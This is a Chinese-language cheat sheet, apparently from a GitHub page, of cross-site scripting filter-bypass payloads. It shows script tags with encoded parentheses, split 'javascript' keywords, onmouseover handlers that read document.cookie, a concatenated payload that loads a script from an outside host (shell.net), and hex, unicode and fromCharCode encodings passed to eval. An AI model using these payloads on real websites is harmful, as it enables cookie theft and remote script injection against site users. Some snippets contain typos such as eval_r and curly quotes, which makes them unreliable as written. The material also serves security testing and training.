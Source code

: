- 当=();:被过滤时:`<svg><script>alert&#40/1/&#41</script>`opera 中可以不闭合 `<svg><script>alert&#40 1&#41` // Opera可查

- 过滤某些关键字（如：javascript） 可以在属性中的引号内容中使用空字符、空格、TAB换行、注释、特殊的函数，将代码行隔开。比如在使用`<iframe src="javascript:alert(1253)" height=0 width=0 /><iframe>`时，可以用回车、Tab键将src中的内容隔开，回车的url编码为%0a,%0b; 拼凑法：① 双写绕过；② 使用js定义变量z=scri, z+pt=script; ③ 两处输出点`<scri<!-- 第二处-->pt>`;

- 无法使用href:

  ```
  <a onmouseover="alert(document.cookie)">xxs link</a>
  在chrome下，其回补全缺失的引号。因此，也可以这样写：
  <a onmouseover=alert(document.cookie)>xxs link</a>
  ```


   - 解决限制字符(要求同页面)

     ```javascript
     <script>z=’document.’</script>
     <script>z=z+’write(“‘</script>
     <script>z=z+’<script’</script>
     <script>z=z+’ src=ht’</script>
     <script>z=z+’tp://ww’</script>
     <script>z=z+’w.shell’</script>
     <script>z=z+’.net/1.’</script>
     <script>z=z+’js></sc’</script>
     <script>z=z+’ript>”)’</script>
     <script>eval_r(z)</script>
     ```

     ​

   - 编码：

     - JS函数（如eval，settimeout）还有就是`href= action= formaction= location= on*= name= background= poster= src= code=`这些地方，可以配合编码。此外，data属性可以base64编码。

       1. js16进制

          ```javascript
          <script>eval(“js+16进制加密”)</script>
          <script>eval("\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73\x22\x29")</script>
          编码要执行的语句↓
          Alert(“xss”)
          ```

       2. js unicode

          ```javascript
          <script>eval("unicode加密")</script>
          //js unicode加密 解决alert()被过滤
          <script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029")</script>
          ```

       3. String.fromCharCode函数（不需要任何引号，必须函数内）

          ```javascript
          <script>eval(String.fromCharCode编码内容))</script>
          <script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>
          ```

